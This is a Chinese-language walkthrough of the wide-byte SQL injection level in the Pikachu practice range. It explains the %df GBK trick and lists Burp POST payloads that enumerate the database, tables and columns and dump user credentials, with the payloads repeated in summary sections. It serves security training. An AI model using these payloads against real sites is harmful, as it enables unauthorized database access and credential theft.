





# pikachu 靶场 wide‑byte（宽字节注入）解题

> 
> 页面：`sqli_widebyte.php`，POST 表单，输入框提示 `what's your username?`
> 背景：后端用 `addslashes` / `escape` 把单引号 `'` 转义成 `\'`；MySQL 连接设置为 GBK 编码，可以用 **% df 吃掉反斜杠 **，让单引号逃逸出来。

## 原理简述

1. 你输入：`%df'`
2. PHP 转义函数把 `'` 变成 `\'`，数据包变成：`%df%5c%27`
3. MySQL 以 GBK 解析：`%df%5c` 合并成 1 个汉字（運），剩下裸的 `%27`（单引号），成功闭合 SQL 语句。

> 
> ⚠️ 注意：**直接网页输入框写 `%df'` 不行！** 浏览器会把`%`做 url 编码变成`%25df'`，失效。**必须抓包修改 POST 原始数据包**（Burp Suite）。

## 完整解题步骤

### 步骤 1：抓包

在页面随便填用户名点提交，Burp 拦截 POST 请求，原始报文大概：

```
POST /vul/sqli/sqli_widebyte.php HTTP/1.1
Host:xxxx
Content‑Type: application/x‑www‑form‑urlencoded

name=xxx&submit=submit
```

### 步骤 2：测试是否绕过成功

修改 `name` 参数值：

```
name=%df' or 1=1#&submit=submit
```

> 
> 不要在浏览器输入框写，在 Burp 请求体直接写上面内容，不要二次 url 编码。
> 发送，如果返回多条用户，说明绕过转义成功。

### 步骤 3：order by 判断字段数

```
name=%df' order by 2#&submit=submit
```

试 `order by 1`、`2`、`3`，pikachu 这关查询是**2 个字段**。

### 步骤 4：联合查询，爆回显位（让前面查询查不到数据）

```
name=%df' union select 1,database()#&submit=submit
```

得到当前数据库名，pikachu 靶场库名一般是 `pikachu`。

### 步骤 5：爆表名

```
name=%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu'#&submit=submit
```

拿到表名，有一张表是 `users`。

### 步骤 6：爆 users 表的列名

```
name=%df' union select 1,group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'#&submit=submit
```

得到字段：`id,username,password`。

### 步骤 7：查询账号密码（拿到 flag）

```
name=%df' union select username,password from users#&submit=submit
```

就可以拿到全部账号密码。

## 常用 payload 汇总（Burp 数据包 body 直接粘贴）

1. 判断注入：

```
name=%df' or 1=1#&submit=submit
```

2. 查库：

```
name=%df' union select 1,database()#&submit=submit
```

3. 查表：

```
name=%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x70696B61636875#&submit=submit
```

4. 查数据：

```
name=%df' union select username,password from users#&submit=submit
```
5. 差列名
```
name=%df' union select 1,group_concat(column_name) from information_schema.columns where table_schema=0x70696B61636875 and table_name=0x7573657273#&submit=submit
```

## 坑点（很多人踩）

1. ❌ 在网页输入框写`%df'`：浏览器把`%`编码成`%25`，变成`%25df'`，失效，**一定要抓包改原始请求**。
2. ❌ 使用`--`注释：POST 表单里`--`后面需要空格，url 编码是`%20`，推荐直接用`#`（url 里 #在 body 直接写即可）。
3. 除`%df`，`%aa`、`%ab`等高字节也可以做宽字节，`%df`是最经典的。
4. 不用引号！用 hex 十六进制编码代替字符串


# ================
具体实操
%df' or 1=1#

绕过成功

%df' union select 1,database()#

可以输出

%df' union select username,password from users#
查询账号密码

可以查询

查表名
%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x70696B61636875#


查列名
%df' union select 1,group_concat(column_name) from information_schema.columns where table_schema=0x70696B61636875 and table_name=0x7573657273#



